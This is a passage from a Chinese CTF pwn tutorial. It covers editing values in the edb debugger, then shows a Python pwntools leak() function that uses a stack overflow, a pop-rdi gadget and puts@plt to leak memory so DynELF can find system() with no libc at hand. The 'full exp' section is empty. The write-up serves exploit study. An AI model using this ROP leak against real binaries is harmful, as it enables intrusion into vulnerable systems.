 ![image-20240423215721879](${images}/image-20240423215721879.png)

双击就能修改数值，

![image-20240423215741763](${images}/image-20240423215741763.png)

stack也一样，直接CTRL+E就能修改栈数据，根据之前的操作方法来即可，不再赘述

##### 被遗忘的第一步：

注意到了么？我们现在并不知道system在哪里，那么就需要使用上面libc的知识了，不过不同的是，上面并没有提到如何查找没有system@plt，也没有so库的情况下，如何找到呢？

可以去看看PS里的csu简述里对无库环境下使用DynELF，还有libsearch库的帮助下，查找libc基地址和system相对位移

这里我们使用DynELF来操作，当然思路只要进行恰当的转化就可以在edb上使用，不过需要处理数据，比较麻烦，因此一般是利用python进行数据收取，当然只要对数据进行64位解码即可也就是u64

首先需要使用的就是暴露函数的地址leak函数：思路就是使用rdi gadget使用puts函数将rdi指定的地址打印，plt后有，因为跟着的就是got，因此后面需要附加一个返回地址，为了保证我们程序还能继续使用这个地址，那么选择main函数最好

这是函数:

```
def leak(addr):
    up = b''
    content = b''

    payload = b'a' * 0x48#栈溢出
    payload += p64(poprdi_addr)#gadget中的rdi的地址
    payload += p64(addr)#指定函数的地址
    payload += p64(puts_plt)#ROP的plt
    payload += p64(start_addr)#函数一开始的地方
    payload = payload.ljust(200,b'B')#其他地方填充垃圾数据
    #整体payload使用思想如下：
    #栈溢出覆盖ret到ROPgadget下的rdi处，指向指定函数的地址，使用ROP的plt再次重新启动start函数，在其他地方填充垃圾数据

    p.send(payload)
    p.recvuntil("bye~\n")
    while True: #防止未接收完整传回的数据
        c = p.recv(numb=1, timeout=0.1)
        if up == b'\n' and c == b"":
            content = content[:-1]+b'\x00'
            break
        else:
            content += c
            up = c
    content = content[:4]
    return content


#关于DynELF实现无libc的漏洞学习：https://www.anquanke.com/post/id/85129
d = DynELF(leak,elf=pwn)
system_addr = d.lookup('system', 'libc')
```

##### 整个exp


[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"